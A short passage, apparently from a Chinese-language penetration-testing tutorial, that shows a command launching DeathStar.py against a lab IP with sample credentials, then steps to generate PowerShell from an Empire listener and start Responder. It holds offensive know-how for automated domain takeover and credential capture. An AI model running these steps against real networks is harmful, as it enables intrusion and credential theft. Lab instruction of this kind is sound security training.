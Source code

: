 ```bash
python3 DeathStar.py -lip 192.168.188.129 -t 100 -u username -p 123456
```

[![](assets/1701222524-16c2ce85d321c1ba4db7f18dfbfab9b8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128144550-c4f0540a-8db9-1.png)  
Step 3：在 empire 中生成 powershell，此时你会发现多了一个名为 DeathStar 的 listener，之后我们使用该 listener 来生成 powershell 代码：

[![](assets/1701222524-fd6d597d9ea9b0ee292410452c857d63.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128144610-d0907894-8db9-1.png)  
Step 4：启动 responder
